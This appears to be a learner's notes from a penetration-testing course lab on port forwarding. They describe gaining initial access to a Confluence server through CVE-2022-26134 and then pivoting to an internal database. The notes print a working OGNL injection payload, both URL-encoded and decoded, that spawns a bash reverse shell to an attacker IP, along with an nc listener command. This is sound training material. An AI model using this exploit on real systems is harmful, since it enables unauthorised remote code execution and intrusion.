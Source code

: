 **Port forwarding** - Configure host to listen on one port and relay all packets received on that port to another destination

(Ex: net admin creates port forward to access web server behind a firewall)

### Simple Port Forwarding Scenario

Linux web server with _CVE-2022-26134_ RCE vulnerability to get initial access.

Web server has two network interfaces. 

One on the same network as our Kali.

One on internal subnet running a PostgreSQL database. 

How to leverage port forwarding to gain access to the database? (knowing IP and creds for the database)

![Figure 1: The network layout from our perspective so far](https://static.offsec.com/offsec-courses/PEN-200/imgs/prat2/9f1e3efdc5c0256e854e387e50f5a621-PRAT2_1_0_ConfluenceAndDatabaseNetworkSetup.png)

My idea is this:
ssh -L KALIIPPORT:POSTGRES:5432

#### Setting Up Lab Environment

Initial access to CONFLUENCE01 web server by exploiting CVE-2022-26134.

PoC of the CVE

```
curl -v http://10.0.0.28:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/10.0.0.28/1270%200%3E%261%27%29.start%28%29%22%29%7D/
```

The payload is URL encoded. Decoding it to look like:

```
curl -v http://10.0.0.28:8090/${new javax.script.ScriptEngineManager().getEngineByName("nashorn").eval("new java.lang.ProcessBuilder().command('bash','-c','bash -i >& /dev/tcp/10.0.0.28/1270 0>&1').start()")}/
```

- URL path is an _OGNL injection_ payload.
- OGNL is _Object-Graph Notation Language_ - used in Java apps.
- Java's _ProcessBuilder_ used to spawn Bash reverse shell

Modifying PoC payload's IPs/Ports

```
curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.118.4/4444%200%3E%261%27%29.start%28%29%22%29%7D/
```

Start nc listener 

`nc -nvlp 4444`

Open another tab on Kali and execute curl payload above.
